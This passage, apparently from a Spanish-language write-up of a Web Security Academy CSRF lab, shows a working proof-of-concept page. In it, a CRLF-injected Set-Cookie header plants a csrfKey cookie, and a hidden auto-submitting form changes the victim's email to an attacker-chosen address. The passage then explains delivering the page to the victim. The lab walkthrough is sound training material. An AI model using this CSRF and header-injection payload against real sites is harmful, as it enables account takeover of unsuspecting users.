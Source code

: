 ```
<html>
    <body>
        <form action="https://0a99004204a2b5f980ef26e5006b0048.web-security-academy.net/my-account/change-email" method="POST">
            <input type="hidden" name="email" value="pwned@gmail.com">
            <input type="hidden" name="csrf" value="Qi37SXlWY0LZ6Cbz1MXvvaUKgDm0CsNF">
        </form>
        <img src="https://0a99004204a2b5f980ef26e5006b0048.web-security-academy.net/?search=test%0D%0ASet-Cookie:%20csrfKey=%20FGTaRhyapWI49WkPXFZADJ7YALo5fvW5%3b%20SameSite=%20None" onerror="document.forms[0].submit();">
    </body>
</html>
```

![](/assets/img/CSRF-Lab-5/image_17.png)

Una vez hecho esto pulsamos sobre `View exploit` para ver si nos `cambia` el `email` a nosotros y `efectivamente` nos lo `cambia`. Independientemente de como generemos el payload, para `completar` el `laboratorio` debemos pegarlo en el `Exploit server` y pulsar sobre `Delivery exploit to victim`. Debemos tener en cuenta que `dos usuarios no pueden tener el mismo email`, por lo tanto, `debemos cambiar nuestro email o cambiar el email en el payload que enviamos`

![](/assets/img/CSRF-Lab-5/image_18.png)
